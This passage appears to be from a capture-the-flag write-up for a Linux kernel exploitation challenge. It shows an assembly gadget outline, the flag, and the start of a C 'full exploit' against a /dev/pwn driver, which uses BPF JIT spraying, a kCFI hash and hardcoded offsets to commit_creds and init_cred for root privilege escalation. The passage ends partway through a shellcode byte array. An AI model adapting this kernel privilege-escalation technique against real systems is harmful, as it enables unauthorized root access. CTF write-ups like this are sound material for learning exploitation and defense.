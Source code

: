 ```
jmp $+3

pop rax
pop rax
jmp $+3

pop rax
nop
jmp $+3

call rax
jmp $+3

pop rax
... ; 29 times
pop rax
ret
```

Keep in mind that you control the value of `rdx` at call time and that you can find kbase leaks on the stack.

## Flag
`toh{JIT_spr4y1ng_1s_my_p4s510n_0f01c80f0110}`

## Full exploit
```c
// Author: prosti (@.prosti. on Discord)

#include "helpers.h"
#include <string.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <sys/prctl.h>
#include <sys/syscall.h>

#define DEV "/dev/pwn"

#define CMD_PWN_WRITE 0x1337
#define CMD_PWN_READ  0x1338
#define CMD_PWN_EXEC  0x1339

#define BPF_OFFSET           0x00200a40

#define VOID_STATIC_HASH     0xa540670c // to get this just disable kcfi randomization momentarely (cfi=norand) 
#define LANDING_ZONE_SIZE    0x100

#define x64_SYS_IOCTL_2_COMMIT_CREDS    0x002aab13 // rdx
#define COMMIT_CREDS_2_INIT_CRED        0x0197b850 // directly hardcoded in the shellcode

uint8_t shellcode[][4] = {   
    { 0x5B, 0x5B, 0xEB, 0x01 },
    { 0x5B, 0x5B, 0xEB, 0x01 },
    { 0x5F, 0x5F, 0xEB, 0x01 },
    { 0x5F, 0x5F, 0xEB, 0x01 },
    { 0x5F, 0x90, 0xEB, 0x01 },
    { 0x29, 0xD3, 0xEB, 0x01 },
    { 0x53, 0x90, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x04, 0x0C, 0xEB, 0x01 },
    { 0x31, 0xC9, 0xEB, 0x01 },
```